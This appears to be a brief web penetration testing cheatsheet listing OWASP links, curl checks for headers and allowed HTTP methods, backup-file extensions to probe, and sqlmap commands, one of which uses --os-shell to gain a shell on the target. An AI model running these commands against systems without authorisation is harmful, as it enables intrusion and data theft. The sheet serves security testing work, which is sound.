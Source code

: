 # Web Penetration Testing Cheatsheet

### Important
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [OWASP testing guide](https://owasp.org/www-project-web-security-testing-guide/)
- [The WASC Threat Classification v2.0](http://projects.webappsec.org/w/page/13246978/Threat%20Classification)

- `curl -i IP` Inspect headers using -v(verbose output) or -i
- `curl -X OPTIONS Domain.com -i` Check if PUT, DELETE, MOVE are accepted

### Checks
1. Client side validation
2. Database interaction
3. File upload/download
4. Display of user input
5. Redirections
6. Access control and Login protected pages
7. Error messages - Status codes (404,403,5xx)

### Extensions and Files
- `bak, bac, old, 000, 001, ~, 01, _bak, inc, Xxx`
- Files: `.git, .htaccess, robots.txt`

### XSS
### SQLi
- [https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- Sqlmap
  - GET `sqlmap -u "http://ip/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title`
  - POST `sqlmap -r request.txt -p title`
  - Shell `sqlmap -r request.txt -p title --os-shell`
